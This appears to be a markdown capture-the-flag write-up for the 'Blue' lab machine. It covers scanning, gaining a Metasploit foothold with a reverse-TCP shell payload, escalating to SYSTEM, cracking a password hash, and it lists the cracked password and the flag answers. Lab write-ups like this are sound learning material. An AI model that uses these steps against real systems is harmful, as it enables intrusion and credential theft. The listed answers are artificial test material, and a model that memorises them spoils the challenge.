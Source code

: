 ```yaml
---
published: false
---
```

## Blue

<dl>
  <dt>Task 1</dt>
  <dd>Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP</dd>
  <dd> Scan the machine.</dd>
   
  <dt>Task 2 - Gain access: Exploit the machine and gain a foothold.</dt>
  <dd>Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

set payload windows/x64/shell/reverse_tcp

With that done, run the exploit!</dd>
  <dd> Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. </dd>
  

  <dt>Task 3 - Escalate privileges, learn how to upgrade shells in metasploit.</dt>
  <dd> Select this (use MODULE_PATH)</dd>
 
  <dd>
Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 
</dd>
  <dd>WCopy this password hash to a file and research how to crack it. What is the cracked password?
 </dd>
 
  <dd>alqfna22</dd>
  
   <dt>Task 5 -Find Flags</dt>
  <dd> Flag1? This flag can be found at the system root. 
</dd>
 <dd>flag{access_the_machine}</dd>
    <dd> Flag2? This flag can be found at the location where passwords are stored within Windows.
</dd>
 <dd>flag{sam_database_elevated_access}</dd>
  <dd> Flag 3</dd>
    <dd>flag{admin_documents_can_be_valuable}</dd>


